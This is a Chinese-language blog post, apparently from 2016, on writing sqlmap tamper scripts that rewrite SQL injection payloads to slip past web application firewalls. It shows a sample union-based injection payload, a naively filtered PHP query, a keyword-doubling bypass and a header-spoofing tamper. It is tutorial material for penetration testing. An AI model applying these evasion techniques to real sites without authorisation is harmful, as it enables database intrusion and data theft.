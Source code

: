 ```yaml
---
layout: post
title:  "sqlmap-tamper编写指南"
date:   2016-6-06 09:31:40 +0800
categories: web
---
```

> 注：最近遇到了一些奇奇怪怪的waf，想自己写一些tamper但是发现没有参考材料可以使用，因此写了这篇文章，以方便进行自定义的tamper编写。笔者笔力有限，如有错误，敬请读者们指正。

## 0x00 sqlmap tamper简介

sqlmap是一个自动化的SQL注入工具，而tamper则是对其进行扩展的一系列脚本，主要功能是对本来的payload进行特定的更改以绕过waf。

<!--more-->

## 0x01 一个最小的例子

为了说明tamper的结构，让我们从一个最简单的例子开始

```python
# sqlmap/tamper/escapequotes.py

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload.replace("'", "\\'").replace('"', '\\"')
```

不难看出，一个最小的tamper脚本结构为priority变量定义和dependencies、tamper函数定义。

priority定义脚本的优先级，用于有多个tamper脚本的情况。

dependencies函数声明该脚本适用/不适用的范围，可以为空。

tamper是主要的函数，接受的参数为payload和\*\*kwargs
返回值为替换后的payload。比如这个例子中就把引号替换为了``\\\\'``。

## 0x02 详细介绍

第一部分完成了一个最简单的tamper架构，下面我们进行更详细的介绍

#### tamper函数

tamper是整个脚本的主体。主要用于修改原本的payload。举例来说，如果服务器上有这么几行代码

```php
$id = trim($POST($id),'union');
$sql="SELECT * FROM users WHERE id='$id'";
```

而我们的payload为
```mysql
-8363'  union select null -- -
```

这里因为union被过滤掉了，将导致payload不能正常执行，那么就可以编写这样的tamper

```python
def tamper(payload, **kwargs):
    return payload.replace('union','uniounionn')
```

保存为replaceunion.py，存到sqlmap/tamper/下，执行的时候带上--tamper=replaceunion的参数，就可以绕过该过滤规则


#### dependencies函数

dependencies函数，就tamper脚本支持/不支持使用的环境进行声明，一个简单的例子如下：

```python
# sqlmap/tamper/echarunicodeencode.py

from lib.core.common import singleTimeWarnMessage

def dependencies():
    singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

# singleTimeWarnMessage() 用于在控制台中打印出警告信息

```

#### kwargs

在官方提供的47个tamper脚本中，kwargs参数只被使用了两次，两次都只是更改了http-header，这里以其中一个为例进行简单说明

```python
# sqlmap/tamper/vanrish.py

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```

这个脚本是为了更改X-originating-IP，以绕过WAF，另一个kwargs的使用出现于xforwardedfor.py，也是为了改header以绕过waf

## 0x3 结语

tamper的编写远不止这些，本文只就其最基本的结构进行探讨。作为sqlmap的扩展，在编写tamper时几乎所有的sqlmap内置的函数、变量都可以使用，本文不一一列出。


## 0x04 附录：部分常数值

```python
# sqlmap/lib/enums.py

class PRIORITY:
    LOWEST = -100
    LOWER = -50
    LOW = -10
    NORMAL = 0
    HIGH = 10
    HIGHER = 50
    HIGHEST = 100


class DBMS:
    ACCESS = "Microsoft Access"
    DB2 = "IBM DB2"
    FIREBIRD = "Firebird"
    MAXDB = "SAP MaxDB"
    MSSQL = "Microsoft SQL Server"
    MYSQL = "MySQL"
    ORACLE = "Oracle"
    PGSQL = "PostgreSQL"
    SQLITE = "SQLite"
    SYBASE = "Sybase"
    HSQLDB = "HSQLDB"

```

